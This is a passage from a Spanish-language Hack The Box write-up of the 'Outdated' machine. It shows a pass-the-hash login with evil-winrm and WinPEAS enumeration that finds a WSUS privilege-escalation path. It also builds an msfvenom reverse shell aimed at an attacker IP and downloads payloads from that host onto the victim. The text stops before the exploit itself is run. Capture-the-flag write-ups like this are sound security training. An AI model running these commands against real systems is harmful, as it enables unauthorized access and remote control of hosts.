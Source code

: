 Usamos evil-winrm para conectarnos como sflowers:

```bash
kali@kali:~/Documents/HTB/Outdated$ evil-winrm -i outdated.htb -u sflowers -H 1FCDB1F6015DCB318CC77BB2BDA14DB5

[...]
*Evil-WinRM* PS C:\Users\sflowers\Documents> type ../Desktop/user.txt
[CENSORED]
```

Obtenemos la flag de usuario.

### Escalada a Administrator

Ejecutamos WinPEAS y descubrimos la técnica de escalada de privilegios WSUS:

```powershell
*Evil-WinRM* PS C:\Users\sflowers\Documents> powershell.exe Invoke-WebRequest -Uri "http://<ATTACKER_IP>/winPEASx64.exe" -OutFile winPEASx64.exe
*Evil-WinRM* PS C:\Users\sflowers\Documents> .\winPEASx64.exe
[...]
╔══════════╣ Checking WSUS                  
╚  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#wsus
    WSUS is using http: http://wsus.outdated.htb:8530
╚ You can test https://github.com/pimps/wsuxploit to escalate privileges
    And UseWUServer is equals to 1, so it is vulnerable! 
```

### Explotación WSUS

Utilizamos SharpWSUS para explotar WSUS:

```bash
curl -s https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpWSUS.ps1 | grep FromBAsE64String | cut -d '"' -f 2 | base64 -d > SharpWSUS.gz
gunzip SharpWSUS.gz
mv SharpWSUS SharpWSUS.exe

wget https://download.sysinternals.com/files/PSTools.zip
unzip PSTools.zip

msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=4444 -f exe -o shell.exe
```

Transferimos los archivos a la víctima:

```powershell
*Evil-WinRM* PS C:\Users\sflowers\Documents> powershell.exe Invoke-WebRequest -Uri "http://<ATTACKER_IP>/SharpWSUS.exe" -OutFile SharpWSUS.exe
*Evil-WinRM* PS C:\Users\sflowers\Documents> powershell.exe Invoke-WebRequest -Uri "http://<ATTACKER_IP>/PsExec64.exe" -OutFile PsExec64.exe
*Evil-WinRM* PS C:\Users\sflowers\Documents> powershell.exe Invoke-WebRequest -Uri "http://<ATTACKER_IP>/shell.exe" -OutFile shell.exe
```

